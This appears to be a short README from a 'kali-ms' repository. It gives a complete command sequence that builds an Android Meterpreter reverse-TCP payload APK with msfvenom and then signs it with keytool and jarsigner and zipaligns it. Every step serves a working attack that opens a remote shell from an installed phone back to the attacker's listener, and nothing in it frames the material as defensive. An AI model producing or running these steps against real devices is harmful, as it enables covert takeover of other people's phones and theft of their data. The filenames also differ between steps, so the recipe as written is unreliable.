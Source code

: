 # kali-ms


msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4444 > reverse_tcp_.apk


## keytool

keytool -genkey -V -keystore key.keystore -alias krnick -keyalg RSA -keysize 2048 -validity 1000


## check your key content

keytool -list -keystore key.keystore

## Sign

jarsigner -verbose -sigalg SHA256withRSA -digestalg SHA-256 -keystore key.keystore reverse_tcp.apk krnick

## check signing

jarsigner -verify -verbose -certs reverse_tcp.apk

## optimization

zipalign -v 4 reverse_tcp.apk singed_reverse_tcp.apk
